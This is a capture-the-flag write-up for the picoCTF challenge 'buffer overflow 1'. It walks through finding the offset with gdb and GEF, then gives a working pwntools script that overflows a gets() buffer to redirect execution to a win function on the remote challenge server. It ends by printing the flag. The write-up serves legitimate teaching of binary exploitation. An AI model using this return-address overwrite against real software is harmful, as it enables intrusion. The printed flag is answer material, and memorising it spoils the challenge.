



# buffer overflow 1
## Overview
Points: x
Category: Binary Exploitation

## Description
Control the return address Now we're cooking! You can overflow the buffer and return to the flag function in the [program](). You can view source [here](./vuln.c). And connect with it using `nc saturn.picoctf.net 63016`


## Hints

1. Make sure you consider big Endian vs small Endian.
2. Changing the address of the return pointer can call different functions.

## Solution

If you look closely to the `vuln.c`, our objective is simply to jump to the `win` function.

We can first see in the source code that were given, and if you look carefully, there is a "define" above the function that said "BUFFSIZE 32", and the program used a dangerous function which is "gets". Running the checksec command to see the Security that setted for the binary we got this.

<p align=center>
    
</p>

Take note that this binary is a 32-bits binary with no security settings.

We gonna start the exploitation using gdb with GEF. Using a pattern create to generate a string of a default 1024 bytes, then we just need to run the program and find out the offset.

With GEF we can simply use this command to see the offset of an address.  
```gef> pattern search $esp``` 

<p align=center>
    
</p>

As you can see we found it at 48, but remember it's a 32-bits binary, which mean the ESP may be equals to the EIP. What we want to control here is where the program jump, which mean the EIP. We can confirm this by using a ```pattern create 48``` then see the "returning to" string that print out the EIP values.

<p align=center>
    
</p>

`0x6161616c` is actually the hex value of the last four char `laaa`, that means if we want to go to `win`, the real payload would be

```
payload = (b'a' * 44) + address of win
```

Now it's the time to make our exploit.
```python
from pwn import *

binary = './vuln'
elf = context.binary = ELF(binary)

#p = process(binary)
p = remote('saturn.picoctf.net',57535)
p.recv()

payload = b'a'*44
payload+= p32(elf.sym['win'])

p.sendline(payload)

p.interactive()
```

Notice we use the `p32()` specifier, because it's a 32-bit binary, we need the correct packing to be able to send the payload correctly, in this case a pack 32 or `p32()`.

Just run the payload and now you will get the flag.

## Flag

```picoCTF{addr3ss3s_ar3_3asy_0195a40f}```